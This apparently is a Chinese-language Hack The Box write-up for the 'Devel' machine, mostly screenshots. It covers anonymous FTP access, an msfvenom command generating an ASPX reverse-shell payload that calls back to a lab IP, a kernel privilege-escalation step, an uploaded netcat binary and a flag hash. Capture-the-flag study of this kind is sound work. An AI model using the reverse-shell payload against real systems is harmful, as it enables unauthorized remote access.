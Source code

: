 +++
ShowToc = true
TocOpen = true
title = '0X003 Devel'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE8fa170ba37f4fdeeebab2d8169336c34image.png)

![](/htb_img/WEBRESOURCE77147834dff16d0532bf298f0ff45314image.png)

![](/htb_img/WEBRESOURCE20d52032feda99b423deb2fa93ae93a2image.png)

# 获取立足点

ftp匿名登录:

![](/htb_img/WEBRESOURCEdda843ba7d07b35e6a5190d2007b8a8bimage.png)

HTTP配合：

![](/htb_img/WEBRESOURCE4585ba8026fe26a06f7f20ad79925988image.png)

生成木马：

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=8889 -f aspx -o cxk.aspx

![](/htb_img/WEBRESOURCE93b9d30a443c1afadfd86c98d81e9888image.png)

![](/htb_img/WEBRESOURCEa5950510bcf11e167cd7053203227b51image.png)

![](/htb_img/WEBRESOURCEda8018e18f77cf2ea0a6ec577ac7757dimage.png)

# 提权

没有任何补丁：

![](/htb_img/WEBRESOURCE509e781aa6e38526e096213733c82c83image.png)

内核提权试试：

![](/htb_img/WEBRESOURCE87c9c9a4ef6e7a3b8aa0cf997a4692a3image.png)

![](/htb_img/WEBRESOURCE310b6501a12cf39328a35d979f49c2eeimage.png)

上传32位的nc:

[https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)

![](/htb_img/WEBRESOURCEc4e3a7d776e726e569ad4208ad021cdeimage.png)

![](/htb_img/WEBRESOURCEe3ae08c61484e306d1701a528ecf7c63image.png)

6988a0c5429f9c38b48a927333d8701a

![](/htb_img/WEBRESOURCE6c35dd9d6df83c998958875edb31c3f6image.png)